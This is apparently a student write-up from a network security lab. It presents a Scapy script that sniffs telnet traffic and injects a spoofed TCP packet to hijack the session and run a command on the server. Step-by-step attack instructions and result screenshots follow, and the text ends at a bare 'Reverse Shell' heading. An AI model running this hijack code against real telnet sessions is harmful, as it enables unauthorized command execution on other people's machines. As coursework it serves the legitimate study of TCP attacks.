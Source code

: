 ```python
from scapy.all import *

def sniffAndHijack(pkt):
	old_seq = pkt[TCP].seq
	old_ack = pkt[TCP].ack
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=pkt[TCP].sport, flags="A", seq=old_ack+5, ack=old_seq)
	data = "\r echo HIJACK!! >> hello.txt \r"
	spoofedPkt = ip/tcp/data
	send(spoofedPkt,iface="br-c26fa13374f9")
sniff(iface='br-c26fa13374f9', filter='tcp and src host 10.9.0.5 and src port 23', prn=sniffAndHijack)
```
1. spoofed a packet by swapping the `source` and `destination` `IP` and `ports`, with the sequence number as the `ack` number of the previous packet plus a small number, `5` in this case. the `ack` number for the spoofed packet is the old `seq number` of the previous packet
2. send the command that you want to execute, in this case `echo hijack >> hello.txt` which creates a hello.txt file in the server machine with content hijack
3. construct the spoofed packet
4. send it out

## Steps to carry out attack
1. On victim machine telnet into the server machine using `telnet <IP> <port>`, you will be prompted to enter the `username` and `password`
2. On the `attacker` machine, run the hijack code to watch for the tcp packets that is a `reply` from the server back to the client
3. try to run ls on the `telnet` session, after `5` successful telnet requests, the session hanged, because they realised that there are multiple packets of the same `seq` number being sent
4. reopen the telnet session and `ls` again, you will see a `hello.txt` file in the directory, and run `cat hello.txt` will output `hijack`
## Result
### Telnet session hanging
![](attachments/attachments/Pasted%20image%2020231001160025.png)

### Running hijack code on the server
![](attachments/attachments/Pasted%20image%2020231001160049.png)
### Hijack result
![](attachments/Pasted%20image%2020231001160126.png)

# Task 4: Reverse Shell
